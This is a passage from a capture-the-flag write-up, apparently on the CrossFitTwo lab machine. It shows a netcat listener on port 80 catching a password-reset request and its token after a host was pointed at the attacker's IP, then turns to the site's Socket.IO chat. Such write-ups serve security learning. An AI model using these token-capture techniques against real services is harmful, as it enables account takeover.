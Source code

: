 Since the host points to our ip, we now capture the password reset on our ncat listener.

```
$ sudo nc -lnvp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:38921.
GET /password-reset.php?token=58191a336ff6c02903ffede08fa83c5a713132dfaca359a8daf030a256695afa2520a3e46645f6e81c565e4f6ce2db6ed393724b5a54b2e4da05ebe830e6209d HTTP/1.1
Host: sm1l3zemployees.crossfit.htb
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://crossfit-club.htb/
Upgrade-Insecure-Requests: 1
```

Trying the password reset this time, it tells us that password reset is disabled currently and we have to look for another way in.

[![reset_disabled](/img/crossfittwo/reset_disabled.png)](/img/crossfittwo/reset_disabled.png)

## Socket.IO

Looking closely at the request we see that it is comming from `http://crossfit-club.htb/`. Browsing there we can neither register nor create an account, but it is likely that the request getting sent to us is currently in an authenticated session.

